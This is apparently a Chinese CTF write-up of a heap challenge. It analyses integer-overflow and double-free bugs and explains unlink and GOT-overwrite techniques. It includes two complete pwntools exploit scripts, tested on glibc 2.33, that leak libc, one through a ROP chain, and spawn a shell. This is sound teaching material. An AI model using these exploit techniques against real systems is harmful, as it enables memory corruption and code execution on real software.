



昨天整理做过的题目时发现的这道题，简单看了下觉得挺有参考意义的，在此回顾。
源文件：my_github
这是一道典型的堆题。内部一共实现了增加、删除、编辑3个功能。

经过分析，漏洞主要有：
在create_exploit函数中的两个整型溢出漏洞，使chunk地址可以写到缓冲区的高地址处
在delete_exploit函数中的double free漏洞，释放后没有清空指针

经过gdb调试发现，bss段中对于chunk相关信息的存储结构如下：

在create一个chunk时，程序会将chunk的size写入chunksize_bank_chunk这个chunk中，但如果输入的索引为负数，就会导致size写入到前面的内容中。索引值为-1可以修改这个chunk的size，索引值为-2时可以将这个chunk的size改得很大很大。同时注意，在索引值为-2时，申请的chunk会将chunksize_bank_chunk覆盖掉，也就是0x6020C0的位置，这个地方变成了我们自己申请的chunk了。这样可以将前面分配的chunk的size修改掉，从而可以在edit函数中触发堆溢出。
看来这道题能做文章的漏洞有很多，但是还有一个问题就是，如何获取libc地址？程序中并没有输出的操作。但是，plt表中有puts函数。我们将free函数的got表地址改成puts的plt，就能够实现输出，当然前提是这个chunk要在got表的地方，这样才能拿到got表的地址。
1 2 3 4 5 6 7 8 9 10 .got.plt:0000000000602018 off_602018 dq offset free ; DATA XREF: _free↑r .got.plt:0000000000602020 off_602020 dq offset puts ; DATA XREF: _puts↑r .got.plt:0000000000602028 off_602028 dq offset write ; DATA XREF: _write↑r .got.plt:0000000000602030 off_602030 dq offset read ; DATA XREF: _read↑r .got.plt:0000000000602038 off_602038 dq offset memcpy ; DATA XREF: _memcpy↑r .got.plt:0000000000602040 off_602040 dq offset malloc ; DATA XREF: _malloc↑r .got.plt:0000000000602048 off_602048 dq offset fflush ; DATA XREF: _fflush↑r .got.plt:0000000000602050 off_602050 dq offset setvbuf ; DATA XREF: _setvbuf↑r .got.plt:0000000000602058 off_602058 dq offset atoi ; DATA XREF: _atoi↑r .got.plt:0000000000602060 off_602060 dq offset exit ; DATA XREF: _exit↑r
要修改的是0x602018，那么应该将chunk分配到0x602008的地方。我们需要进行一次double_free操作。
经过gdb调试发现，在glibc 2.27及更高版本无法进行此次double free，因为在_int_free中加入了检查tcache的double free，但2.23中没有发现这类检查代码，因此转到2.23进行调试。
double_free之后UAF，将fd改为0x602008。我满怀期待地执行下一步，gdb却给我来了当头一棒——malloc(): memory corruption (fast)
1 2 3 4 5 6 7 if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0 )){ errstr = "malloc(): memory corruption (fast)" ; errout: malloc_printerr (check_action, errstr, chunk2mem (victim), av); return NULL ; }
检查通不过：目的地址对应的size必须正确。
看来这条路是走不通了。看下一个思路：unlink。
如果是使用unlink的话，就无需考虑是否存在tcache了。如果有tcache则分配一个large bins大小的chunk让它被释放时不进tcache就好了。
记得在之前的how2heap分析中，对于unlink是直接将后面chunk的prev_inuse置为0的。这里我们不能直接这样做，而是需要利用未被清空的指针。
Step 1: 分配两个非tcache chunk并释放。释放之后，这两个chunk会被合并入top chunk中，绕过double free的检测。
注意：在大chunk中需要在原chunk_1前后均伪造，这是为了通过unlink和_int_free的检查。在后方构造chunk主要构造其prev_inuse位为1以绕过line 4316 (glibc 2.31)的检查，在前方构造chunk是为了绕过unlink的检查，在how2heap中有分析，如有疑问请移步我之前写的how2heap分析文章，这里不再赘述。
1 2 if (__glibc_unlikely (!prev_inuse(nextchunk))) malloc_printerr ("double free or corruption (!prev)" );
这样，释放chunk_1就能够成功，chunk_0的地址也会被修改到bss段上（0x6020C8）。我们现在可以通过chunk_0随意修改bss段中保存有chunk信息的部分了。之后的操作就是水到渠成：
Step 5: 将chunk_1的地址改为free的got表地址，修改为puts的plt地址。
payload: （本payload在Kali上测试成功，libc版本：Debian GLIBC 2.33-6，2022/4/5最新更新版本）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 from pwn import *from LibcSearcher import *context(arch='amd64' , log_level='debug' ) libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.33.so' ) libc_atoi_addr = libc.symbols['atoi' ] libc_sys_addr = libc.symbols['system' ] libc_write_addr = libc.symbols['write' ] print (hex (libc_atoi_addr))print (hex (libc_sys_addr))chunk_addr_bss = 0x6020E0 elf = ELF('./pwn' ) io = process('./pwn' ) def create (size, index, content ): io.sendlineafter(b'$ ' , b'1' ) io.sendlineafter(b'Input size\n' , str (size).encode()) io.sendlineafter(b'Input cun\n' , str (index).encode()) io.sendafter(b'Input content\n' , content) def delete (index ): io.sendlineafter(b'$ ' , b'2' ) io.sendlineafter(b'Chose one to dele\n' , str (index).encode()) def edit (index, content ): io.sendlineafter(b'$ ' , b'3' ) io.sendlineafter(b'Chose one to edit\n' , str (index).encode()) io.sendafter(b'Input the content\n' , content) main_addr = 0x400C8C pop_rdi_ret_addr = 0x400DA3 one_gadget_addr = 0x41EBC io.recv() io.sendline(b'CoLin' ) create(0x420 , 0 , b'flag' ) create(0x420 , 1 , b'flag' ) delete(1 ) delete(0 ) payload = p64(0 ) payload += p64(0x420 ) payload += p64(chunk_addr_bss - 0x18 ) payload += p64(chunk_addr_bss - 0x10 ) payload += b'\x00' * 0x400 payload += p64(0x420 ) payload += p64(0x420 ) payload += b'\x00' * 0x410 payload += p64(0x420 ) payload += p64(0x21 ) create(0x860 , 0 , payload) delete(1 ) payload = b'\x00' * 0x18 payload += p64(0x6020c8 ) payload += p64(1 ) payload += p64(0x602018 ) payload += p64(1 ) payload += p64(0x602028 ) payload += p64(1 ) edit(0 , payload) edit(1 , p64(elf.plt['puts' ])) delete(2 ) mem_write_addr = u64(io.recv(6 ) + b'\x00\x00' ) libc_base = mem_write_addr - libc_write_addr mem_sys_addr = libc_base + libc_sys_addr edit(1 , p64(mem_sys_addr)) create(0x20 , 3 , b'/bin/sh' ) delete(3 ) io.interactive()
当然，本着学习的态度，我们可以思考一下，除了这种方法还有没有其他的方法呢？在发布wp点赞第一的文章中，我看到了对整型溢出的利用。上面的方法不需要整型溢出就可以实现，而整型溢出为我们提供了另外一种获取libc加载地址的方法。
由于本程序没有canary，如果我们将size写成负数，就可以在栈上实现溢出。但是这里我有一点不太清楚：如果将size写为负数，那么malloc注定失败返回空指针。在将content写入栈时，dest的值仍然是0，为什么不会报段错误？在进行gdb调试时，read函数检测到size为-1时根本就不会中断等待输入，而在脚本中我们强制传过去了一段内容，不知这样会对程序产生什么样的影响，但memcpy这个函数注定是不会执行了。总之这种方式是有效的，使用ROP获取到了puts函数的got表地址。
之后还是通过unlink，只不过直接修改free的地址即可。
payload: （本payload在Kali上测试成功，libc版本：Debian GLIBC 2.33-6，2022/4/5最新更新版本）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 from pwn import *from LibcSearcher import *context(arch='amd64' , log_level='debug' ) libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.33.so' ) libc_atoi_addr = libc.symbols['atoi' ] libc_sys_addr = libc.symbols['system' ] libc_puts_addr = libc.symbols['puts' ] print (hex (libc_atoi_addr))print (hex (libc_sys_addr))chunk_addr_bss = 0x6020E0 elf = ELF('./pwn' ) io = process('./pwn' ) def create (size, index, content ): io.sendlineafter(b'$ ' , b'1' ) io.sendlineafter(b'Input size\n' , str (size).encode()) io.sendlineafter(b'Input cun\n' , str (index).encode()) io.sendafter(b'Input content\n' , content) def delete (index ): io.sendlineafter(b'$ ' , b'2' ) io.sendlineafter(b'Chose one to dele\n' , str (index).encode()) def edit (index, content ): io.sendlineafter(b'$ ' , b'3' ) io.sendlineafter(b'Chose one to edit\n' , str (index).encode()) io.sendafter(b'Input the content\n' , content) main_addr = 0x400C8C pop_rdi_ret_addr = 0x400DA3 one_gadget_addr = 0x41EBC io.recv() io.sendline(b'CoLin' ) payload = cyclic(0x80 ) payload += b'\x00' * 8 payload += b'\x00' * 8 payload += cyclic(0x8 ) payload += p64(pop_rdi_ret_addr) + p64(elf.got['puts' ]) payload += p64(elf.plt['puts' ]) + p64(main_addr) create(-1 , 0 , payload) mem_puts_addr = u64(io.recv(6 ) + b'\x00\x00' ) libc_base = mem_puts_addr - libc_puts_addr mem_sys_addr = libc_base + libc_sys_addr io.recv() io.sendline(b'CoLin' ) create(0x420 , 0 , b'flag' ) create(0x420 , 1 , b'flag' ) delete(1 ) delete(0 ) payload = p64(0 ) payload += p64(0x420 ) payload += p64(chunk_addr_bss - 0x18 ) payload += p64(chunk_addr_bss - 0x10 ) payload += b'\x00' * 0x400 payload += p64(0x420 ) payload += p64(0x420 ) payload += b'\x00' * 0x410 payload += p64(0x420 ) payload += p64(0x21 ) create(0x860 , 0 , payload) delete(1 ) payload = b'\x00' * 0x18 payload += p64(0x6020c8 ) payload += p64(1 ) payload += p64(0x602018 ) payload += p64(1 ) edit(0 , payload) edit(1 , p64(mem_sys_addr)) create(0x20 , 2 , b'/bin/sh' ) delete(2 ) io.interactive()
以上就是适用于目前最新版本libc的两种解题方案。如果版本比较老还可以考虑使用fastbin的double_free，但是考虑到目前比赛使用的glibc版本越来越高，这里只分析这两种方法。